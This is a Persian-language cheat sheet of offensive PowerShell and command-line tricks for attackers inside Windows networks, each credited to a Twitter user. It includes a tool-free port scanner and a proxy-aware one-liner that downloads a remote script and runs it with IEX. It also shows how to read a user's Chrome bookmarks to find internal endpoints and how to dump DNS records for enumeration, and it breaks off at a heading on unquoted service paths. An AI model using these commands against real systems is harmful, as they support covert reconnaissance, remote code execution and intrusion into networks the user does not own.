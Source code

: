 *اسکن پورت با PowerShell بدون ابزار اضافی*<br>

```bash
0..65535 | % {echo ((new-object Net.Sockets.TcpClient).Connect(<tgt_ip>,$_)) "Port $_ open"} 2>$null
```

**توضیح:** *«هر وقت ممکن بود از ابزارهای داخلی سیستم استفاده کنید تا نیازی به آپلود ابزار نباشد. این نمونه یک اسکنر پورت ساده در PowerShell است.»*<br>
**اعتبار:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)<br>
**لینک:** [Twitter](https://twitter.com/Alh4zr3d/status/1605060950339588096)<br>


### [🔙](#tool-list)Proxy aware PowerShell DownloadString

*دانلود رشته PowerShell با پشتیبانی از پروکسی*<br>

```bash
$w=(New-Object Net.WebClient);$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;IEX $w.DownloadString("<url>")
```

**توضیح:** *«بسیاری از سازمان‌ها از وب‌پروکسی استفاده می‌کنند. دانلودر پیش‌فرض PowerShell از پروکسی پشتیبانی نمی‌کند، این نسخه را امتحان کنید.»*<br>
**اعتبار:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)<br>
**لینک:** [Twitter](https://twitter.com/Alh4zr3d/status/1596192664398966785)<br>


### [🔙](#tool-list)Looking for internal endpoints in browser bookmarks

*یافتن نقاط پایانی داخلی در بوکمارک مرورگر*<br>

```bash
type "C:\Users\%USERNAME%\AppData\Local\Google\Chrome\User Data\Default\Bookmarks.bak" | findstr /c "name url" | findstr /v "type"
```

**توضیح:** *«شاید باور نکنید ولی فقط از روی بوکمارک‌های مرورگر کاربر می‌توان نقاط پایانی داخلی و منابع حساس را شناسایی کرد.»*<br>
**اعتبار:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)<br>
**لینک:** [Twitter](https://twitter.com/Alh4zr3d/status/1595488676389171200)<br>

### [🔙](#tool-list)Query DNS records for enumeration  
*درخواست رکوردهای DNS برای شمارش*<br>  

```bash
Get-DnsRecord -RecordType A -ZoneName FQDN -Server <server hostname>
```  

**توضیح:** *'شمارش ۹۵٪ بازی است. با این حال، اجرای حجم زیادی از اسکن‌ها برای ارزیابی محیط، بسیار پرسر و صدا است. چرا فقط از سرور DC/DNS نخواهیم که تمام رکوردهای DNS را در اختیارمان بگذارد؟'*<br>  
**اعتبار:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)<br>  
**لینک:** [Twitter](https://twitter.com/Alh4zr3d/status/1587132627823181824)<br>

### [🔙](#tool-list)Unquoted service paths without PowerUp  
*یافتن مسیرهای سرویس بدون کوتیشن (Unquoted) بدون استفاده از PowerUp*<br>  
